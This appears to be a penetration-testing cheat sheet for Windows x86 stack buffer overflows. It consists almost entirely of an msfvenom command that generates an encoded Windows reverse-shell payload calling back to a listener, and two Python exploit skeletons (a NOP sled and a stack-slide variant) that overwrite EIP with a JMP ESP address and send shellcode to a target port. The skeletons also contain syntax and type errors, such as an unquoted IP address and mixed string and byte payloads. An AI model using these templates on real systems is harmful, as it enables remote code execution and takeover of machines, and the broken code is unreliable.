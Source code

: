 # Windows Stack Buffer Overflow

## Stack Buffer Overflow

## x86 Stack Buffer Overflow

### x86 Msfvenom Template

```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.20 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c EXITFUNC=thread
```

### x86 Stack Buffer Overflow Skeleton

#### NOP Skeleton

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Global
target = 10.10.10.10

def exploit():
    # Shellcode in Bytes
    shellcode = (b"<shellcode>")

    # Payload in Bytes
    offset = 1052
    before_eip = b"A"*offset # 1052 A
    eip = pack("<I", <address>) # JMP ESP
    nops = "\x90"*16 # 16 NOPs
    
    payload = before_eip + eip + nops + shellcode
    
    # Socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, 8080))
    s.send(payload)
    
    
    
if __name__ == "__main__"
    exploit()
```

#### Stack Slide Skeleton \(Alternative to NOPs\)

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Global
target = 10.10.10.10

def exploit():
    # Shellcode in Bytes
    shellcode = (b"<shellcode>")

    # Payload in Bytes
    offset = 1052
    before_eip = b"A"*offset # 1052 A
    eip = pack("<I", <address>) # JMP ESP
    # SUB ESP, 0x10
    payload = before_eip + eip + b"\x83\xec\x10" + shellcode
    
    # Socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, 8080))
    s.send(payload)
    
    
    
if __name__ == "__main__"
    exploit()
```

